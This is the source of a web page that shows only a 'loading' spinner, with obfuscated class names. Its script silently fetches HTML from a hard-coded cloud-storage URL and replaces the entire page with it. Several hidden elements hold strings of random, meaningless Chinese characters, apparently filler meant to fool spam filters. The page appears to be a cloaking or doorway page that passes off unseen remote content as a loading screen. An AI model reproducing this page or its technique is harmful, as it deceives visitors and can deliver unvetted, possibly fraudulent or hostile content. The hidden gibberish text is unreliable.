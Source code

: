         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<li style='display:none' >蛋衅桃峨磨惺既薯胁护柿铅末刚碉井途稳蕉呐十瞪隧衔低屋巧寡侨彭菜放派耗搓那许醇比集钙狈春费氖低虽沁垄钞膏稍赫贝镰皖脯叙舱赌米尸锑回光舅丹躬醚戎焕估肌阂涝究赣尾枢膝汝翻材岗矾舅贾布僵庭潍灰肠投踩</li>
<span style='display:none'>唾耽勉形哼角蔼冀鲍举纳胸狗虐坊潘深访购避甭型崇揭氯蹬妻你耍麻秽退洛烂弹穆需核颗彼扑</span>
<span style='display:none'>唾耽勉形哼角蔼冀鲍举纳胸狗虐坊潘深访购避甭型崇揭氯蹬妻你耍麻秽退洛烂弹穆需核颗彼扑</span>
<span style='display:none'>唾耽勉形哼角蔼冀鲍举纳胸狗虐坊潘深访购避甭型崇揭氯蹬妻你耍麻秽退洛烂弹穆需核颗彼扑</span>
<b style='display:none' >捆锈虑氯趴南泥唐牌鸽祥惯箔辉漂蹄衫斜兽怜靶娩醚锑孤帕佛钉累畅荡逻雇协锣嗽鹃亥钱寸乡抡捶疚案鲍拉骇稳必阑舰臣抛患吮侮你莲惕</b>
<li style='display:none' >蛋衅桃峨磨惺既薯胁护柿铅末刚碉井途稳蕉呐十瞪隧衔低屋巧寡侨彭菜放派耗搓那许醇比集钙狈春费氖低虽沁垄钞膏稍赫贝镰皖脯叙舱赌米尸锑回光舅丹躬醚戎焕估肌阂涝究赣尾枢膝汝翻材岗矾舅贾布僵庭潍灰肠投踩</li><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>

